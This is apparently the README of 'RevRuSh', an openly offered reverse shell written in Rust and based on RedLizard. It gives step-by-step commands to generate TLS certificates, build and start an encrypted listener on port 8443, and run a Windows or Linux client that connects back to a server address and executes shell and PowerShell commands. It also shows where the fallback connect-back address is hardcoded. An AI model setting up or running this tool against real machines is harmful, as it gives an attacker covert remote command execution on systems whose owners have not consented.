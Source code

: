 # RevRuSh - A sample reverse shell in Rust
Based on https://github.com/trickster0/RedLizard

![Redlizard](screen.png)

### Note
Since the original project, RedLizard, is not mantained anymore I decided to create a new indipendent project.

Many thanx to [trickster0](https://github.com/trickster0) 

### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


### Requirements:
- rustc & cargo >= 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
### Advises
- better run server on linux

### Prepare the server
    cd RevRuSh/server
    openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout my.key -out my.crt && \
    openssl pkcs12 -export -out revrush.pfx -inkey my.key -in my.crt && \
    mv revrush.pfx src

    cargo b --release
    
### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
target/release/revrush_server Zinz01 8443
```

### Prepare the client
    cd RevRuSh-main\client>
    cargo b --release
    
### Run the client
Pass the server:port as argument.
```
target\release\revrush_client.exe <server IP>:8443
```
If you want to run powershell command you can execute:
         
    ~$: powershell -c get-help

#### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```
#### Known issues
~~Don't send empty command to the client, just hitting carriage return, since the server will loose the shell, not the connection. The reuslt will be a hanging session~~

